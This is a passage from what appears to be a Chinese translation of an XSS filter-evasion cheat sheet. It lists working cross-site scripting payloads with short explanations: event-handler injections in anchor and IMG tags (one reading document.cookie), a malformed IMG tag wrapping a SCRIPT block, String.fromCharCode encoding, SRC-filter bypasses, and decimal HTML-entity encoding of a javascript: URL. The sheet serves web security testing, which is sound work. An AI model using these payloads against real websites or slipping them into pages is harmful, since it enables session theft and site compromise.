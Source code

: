 此外，chrome 浏览器喜欢去不全确实的引号为你。如果你遇到阻碍那么直接省略它们吧，chrome 将会正确的帮你不全缺失的引号在 URL 和 script 中。

```
<a onmouseover=alert(document.cookie)>xxs link</a> 
```

### 畸形的 IMG 标签

最早被 Begeek 发现（可以短小而干净的运行于任何浏览器），这个 xss 向量依靠松散的渲染引擎解析 IMG 标签中被引号包含的字符串来实现。我猜测它最初是为了正确编码而造成的。这将使它更加困难的去解释 HTML 标签。

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"> 
```

### fromCharCode

如果没有任何形式的引号被允许，你可以 eval()一串 fromCharCode 在 javascript 来创建任何你需要的 xss 向量。

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))> 
```

### 默认 SRC 属性去绕过 SRC 域名检测过滤器

这将绕过绝大多数 SRC 域名过滤器。插入 javascript 代码在任何一个事件方法同样适用于热河一个 HTML 标签，例如 Form、Iframe、Input、Embed 等等。他将也允许任何任何该标签的相关事件去替换，例如 onblur, onclick 等，后面我们会附加一个可用的事件列表。由 David Cross 提供，Abdullah Hussam 编辑。

```
<IMG SRC=# onmouseover="alert('xxs')"> 
```

### 默认 SRC 属性通过省略它的值

```
<IMG SRC= onmouseover="alert('xxs')"> 
```

### 默认 SRC 属性通过完全不设置它

```
<IMG onmouseover="alert('xxs')"> 
```

### 通过 error 事件触发 alert

```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img> 
```

### 十进制 html 编码引用

所有在使用 javascript 指令的 xss 示例将无法工作在 Firefox 或 Netscape 8.1+，因为它们使用了 Gecko 渲染引擎。使用 XSS [Calculator](http://ha.ckers.org/xsscalc.html) 获取更多信息。

```
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;> 
```
